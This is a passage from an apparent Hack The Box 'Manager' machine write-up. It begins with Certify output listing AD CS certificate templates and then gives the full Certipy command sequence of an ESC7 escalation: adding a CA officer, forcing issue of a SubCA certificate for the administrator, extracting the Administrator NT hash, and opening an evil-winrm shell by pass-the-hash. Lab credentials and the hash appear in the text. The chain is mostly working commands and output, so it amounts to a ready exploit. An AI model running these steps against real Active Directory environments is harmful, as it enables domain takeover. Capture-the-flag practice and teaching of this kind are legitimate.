                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : WebServer
    Schema Version                        : 1
    Validity Period                       : 2 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Server Authentication
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : SubCA
    Schema Version                        : 1
    Validity Period                       : 5 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : NONE
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : <null>
    mspki-certificate-application-policy  : <null>
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DomainControllerAuthentication
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, Server Authentication, Smart Card Logon
    mspki-certificate-application-policy  : Client Authentication, Server Authentication, Smart Card Logon
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : DirectoryEmailReplication
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DIRECTORY_GUID, SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS, AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Directory Service Email Replication
    mspki-certificate-application-policy  : Directory Service Email Replication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

    CA Name                               : dc01.manager.htb\manager-DC01-CA
    Template Name                         : KerberosAuthentication
    Schema Version                        : 2
    Validity Period                       : 1 year
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : SUBJECT_ALT_REQUIRE_DOMAIN_DNS, SUBJECT_ALT_REQUIRE_DNS
    mspki-enrollment-flag                 : AUTO_ENROLLMENT
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Client Authentication, KDC Authentication, Server Authentication, Smart Card Logon
mspki-certificate-application-policy  : Client Authentication, KDC Authentication, Server Authentication, Smart Card Logon
    Permissions
      Enrollment Permissions
        Enrollment Rights           : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Domain Controllers    S-1-5-21-4078382237-1492182817-2568127209-516
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
                                      MANAGER\Enterprise Read-only Domain ControllersS-1-5-21-4078382237-1492182817-2568127209-498
                                      NT AUTHORITY\ENTERPRISE DOMAIN CONTROLLERSS-1-5-9
      Object Control Permissions
        Owner                       : MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteOwner Principals       : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteDacl Principals        : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519
        WriteProperty Principals    : MANAGER\Domain Admins         S-1-5-21-4078382237-1492182817-2568127209-512
                                      MANAGER\Enterprise Admins     S-1-5-21-4078382237-1492182817-2568127209-519

Certify completed in 00:00:08.3737522
```

First we add our user raven as officer.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/images/www]
└─ $  certipy ca -ca 'manager-DC01-CA' -add-officer 'Raven' -username Raven@dc01.manager.htb -password 'R4v3nBe5tD3veloP3r!123'                                                      [10:19 ]
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'Raven' on 'manager-DC01-CA'
```

Then we send an initial request to the machine and it fails.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/images/www]
└─ $  certipy req -ca 'manager-DC01-CA' -username Raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -template SubCA -upn administrator@manager.htb -target dc01.manager.htb       [10:20 ]
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 15
Would you like to save the private key? (y/N) y
[*] Saved private key to 15.key
[-] Failed to request certificate
```

Then we re-issue the request passing the ID that the previous request.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/images/www]
└─ $  certipy ca -ca 'manager-DC01-CA' -username Raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -issue-request 15                                                              [10:22 ]
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Successfully issued certificate
```

Then we repeat the request using the ID and we were able to retrieve the Administrator user certificate.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/images/www]
└─ $  certipy req -ca 'manager-DC01-CA' -username Raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -target dc01.manager.htb -retrieve 15                                         [10:24 ]
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Rerieving certificate with ID 15
[*] Successfully retrieved certificate
[*] Got certificate with UPN 'administrator@manager.htb'
[*] Certificate has no object SID
[*] Loaded private key from '15.key'
[*] Saved certificate and private key to 'administrator.pfx'
```

Finally, we retrieve the NT hash for Administrator throw the certificate retrieved before.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/images/www]
└─ $  certipy auth -pfx ./administrator.pfx -dc-ip 10.10.11.236                                                                                                                      [10:25 ]
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@manager.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@manager.htb': aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef
```

Now we were able to log into the WinRM service using the pass-the-hash technique.

```bash
┌──[ th3g3ntl3m4n@parrot]─[ 10.24.2.134]─[ 10.10.14.200]
├──[  ~/htb/machines/images/www]
└─ $  evil-winrm -i 10.10.11.236 -u Administrator -H 'ae5064c2f62317332c88629e025924ef'                                                                                              [10:27 ]
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
manager\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls -Force ..\Desktop

    Directory: C:\Users\Administrator\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-        9/28/2023   2:27 PM            282 desktop.ini
-ar---        11/9/2023   5:35 AM             34 root.txt
```

